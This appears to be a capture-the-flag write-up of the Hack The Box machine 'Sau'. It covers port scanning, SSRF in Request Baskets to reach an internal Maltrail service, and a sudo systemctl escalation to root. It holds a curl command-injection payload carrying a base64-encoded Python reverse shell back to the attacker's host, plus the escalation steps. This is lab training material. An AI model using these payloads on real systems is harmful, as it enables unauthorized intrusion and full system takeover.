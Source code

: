 ```yaml
---
title: Hack The Box Machine - Sau
date: 2023-07-29
layout: "simple"
tags: [hackthebox, easy]
categories: [hackthebox]

---
```

### Easy Box


![Sau](https://www.hackthebox.com/storage/avatars/1ea2980b9dc2d11cf6a3f82f10ba8702.png)


| Name | Sau|
| :------ |:--- |
| OS | Linux |
| RELEASE DATE | July 8, 2023 |
| DIFFICULTY | <span style="color:green">Easy</span> | 1



## Port Scan
I actually wanted to test Naabu as my scanner of choice to be able to enumerate the host. I just Naabu to scan all of the ports and Naabu has a feature to then pump the ports to nmap. This was my command and output.

```sh
solidshadw@solidManjaro  ~/Downloads   
$ sudo naabu -p - -host 10.10.11.224 -nmap-cli 'nmap -sV -oX nmap-outpu  
t'
  
                 __  
 ___  ___  ___ _/ /  __ __  
/ _ \/ _ \/ _ \/ _ \/ // /  
/_//_/\_,_/\_,_/_.__/\_,_/  
  
               projectdiscovery.io  
  
[INF] Current naabu version 2.1.6 (latest)  
[INF] Running host discovery scan  
[INF] Running SYN scan with CAP_NET_RAW privileges  
[INF] Found 2 ports on host 10.10.11.224 (10.10.11.224)  
10.10.11.224:55555  
10.10.11.224:22  
[INF] Running nmap command: nmap -sV -oX nmap-output -p 22,55555 10.10.  
11.224  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 14:30 MDT  
Nmap scan report for 10.10.11.224  
Host is up (0.069s latency).  
  
PORT      STATE SERVICE VERSION  
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux;  
protocol 2.0)  
55555/tcp open  unknown  
1 service unrecognized despite returning data. If you know the service/  
version, please submit the following fingerprint at https://nmap.org/cg  
i-bin/submit.cgi?new-service :  
SF-Port55555-TCP:V=7.94%I=7%D=7/29%Time=64C576E7%P=x86_64-pc-linux-gnu%  
r(G  
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm  
l;\  
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\  
"/w  
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2  
0Re  
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection  
:\x  
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x  
202  
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ  
est  
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla  
in;  
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque  
st"  
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20  
tex  
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\  
x20  
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n  
Con  
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r  
\n\  
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204  
00\  
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r  
\nC  
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6  
7,"  
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x  
20c  
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%  
r(K  
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t  
ext  
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x  
20R  
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\  
r\n  
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti  
ons  
SF::\x20nosniff\r\nDate:\x20Sat,\x2029\x20Jul\x202023\x2020:30:58\x20GM  
T\r  
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20  
nam  
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}  
\$\  
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty  
pe:  
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\  
x20  
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ  
est  
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20  
clo  
SF:se\r\n\r\n400\x20Bad\x20Request");  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at htt  
ps://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 89.64 seconds
```

Looks like we found 2 ports opened. Port 22 and Port 55555. 

## Port 55555
Looks like this port is running a web interface

![image](./20230729160044.png)

As I inspect the app. Looks like you can create a webhook like in which it collects and inspects the data sent over. 

We can send requests to the basket that I created `http://10.10.11.224:55555/web/gfr64fy`. 

![image1](./20230729160639.png)

On the main page, I saw a version number `Version: 1.2.1`. Which I proceeded to look any potential vulnerabilities and bingo. https://github.com/advisories/GHSA-58g2-vgpg-335q, 
Looks like it is vulnerable to SSRF. As I continue to dig into this vulnerability, seems that it is exploiting the `/api/baskets/{name}`. That means that every time we visit that site, that api path gets called and triggered. 

Exploring that app a bit more, I found that you can forward URLs. 

![image2](./20230729161754.png)

I stumbled upon this [article](https://notes.sjtu.edu.cn/s/MUUhEymt7)  that was explaining the SSRF vulnerability and they used this feature of forward URL to exploit the SSRF to find any other webservers not exposed to internet. They found more resources on the localhost that where to not available on our initial scan. So, I tried on port 80 and boom we got another webserver. 

![iamge3](./20230729162117.png)

![image4](./20230729162133.png)

It looks like it is a Maltrail from the description at the bottom. It also exposes a version `v0.53`. A quick google search, you can find that version is vulnerable to an Unauthenticated RCE(the best kind) https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/.

We will need to add the `/login` at the end because it looks that is where that RCE happens. So, in the end our config will look something like this:

![image5](./20230729162522.png)

## Payload to get RevShell

I started testing the RCE by sending a curl command to my host.

![image6](./20230730211002.png)

Which it was successful! So, we know that it is working. 

![image8](./20230730211042.png)

I tried the basic sh revershell but I couldn't get it to work, not sure why. When digging into this RCE I found this [article](https://medium.com/pentesternepal/owasp-ktm-0x03-ctf-writeup-e467634a9661) in which they craft a python reverse shell and echo it in base64 and decode and execute with bash. This was my final payload:

```bash
$ curl 'http://10.10.11.224:55555/gfr64fy' \         
 --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZ  
XNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJF  
QU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEwIiw4MDg1KSk7b3MuZHVwMihzLmZpbGVubyg  
pLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG  
9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw==|base64 -d|bash`'
```

After executing it, it worked!

![image9](./20230729154901.png)

## Privilege Escalation Payload

Looks like we are running as the user "puma". I ran the command `sudo -l` to see if he's able to run any commands as sudo without a password.

![image10](./20230729155419.png)

A quick google search on privilege escalation when running `systemctl status` landed me on this page https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/. 

So, the final payload is divided in two parts. The first is:
```bash 
sudo systemctl status trail.service
```
And then you run:
```bash
!sh
```

And that drops you into a shell. We have made it to root. 

![image11](./20230729155249.png)